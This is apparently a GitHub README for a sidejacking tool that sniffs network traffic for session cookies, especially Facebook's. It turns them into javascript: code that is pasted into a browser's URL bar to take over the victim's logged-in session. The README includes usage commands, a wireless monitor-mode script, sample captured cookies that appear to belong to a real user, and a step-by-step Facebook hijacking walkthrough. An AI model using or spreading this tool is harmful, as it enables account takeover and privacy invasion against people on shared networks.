 # A Simple sidejacking tool, using javascript cookie injection.

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

It comes accompanied by a script: `OSx10.6_monitorMode.py`, that is able to use the `airport sniff` feature present in OS X 10.6+, allowing the wireless device to be put in monitor mode.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-f`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -f`

If you wish to run `cookieJsInjection` on a wireless device, and you are currently running OS X 10.6+, use `OSx10.6_monitorMode.py`: ::

    hybrid:py-cookieJsInjection diogomonica$ sudo python OSx10.6_monitorMode.py 
    Password:
    Usage: OSx10.6_monitorMode.py CHANNEL <-facebook>
    hybrid:py-cookieJsInjection diogomonica$ sudo python OSx10.6_monitorMode.py 9 -facebook
    [*] Starting scan on channel 9
    Capturing 802.11 frames on en1.
    Capturing 802.11 frames on en1.
    # Found cookie for facebook user XXXXXXXX:
    c_user = 798929644
    wd = 1280x840
    e = n
    presence = DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF294237772227WMblcMshfPBbloMbvtMctP294232437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP294237495196QB1259338588ADolA-1BflA_5b_5dBexpZ295237551044QQBalAD1606900057ADiA0QQQQ
    cur_max_lag = 20
    xs = 24e156ef2ddf6d6911422b0a9825825f
    L = 20
    datr = 4VToPPIw60lKSa3qrFSFrlm1
    locale = en_US
    lu = ZBj64Z92UpiasQNnWbkzW32w
    sid = 61
    sct = 1273830123
    x-referer = http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488456769644%3Fnotif_t%3Dfeed_comment
    [*] Javascript Injection code:
    javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x840");void(document.cookie="e=n");void(document.cookie="presence=DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF29432172227WMblcMsndPBbloMbvtMctP2943212437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP29443432196QB1259338588ADolA-1BflA_5b_5dBexpP2942321553944QQBalAD1605400057ADiA0QQQQ");void(document.cookie="cur_max_lag=20");void(document.cookie="xs=54e156e028df6d6916232b0a9825825e");void(document.cookie="L=20");void(document.cookie="datr=1VTuTPOwDSg6xl3qrQFDrlm4");void(document.cookie="locale=en_US");void(document.cookie="lu=TAj64Z02UpiSdFQNnWbkz2w");void(document.cookie="sid=60");void(document.cookie="sct=1294230653");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488432169644%3Fnotif_t%3Dfeed_comment");


# Example of Facebook sidejacking


1 - Run cookieJsInjection and wait for cookies to appear ::

    glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -f
    javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1L798929644A5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
#Background

More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking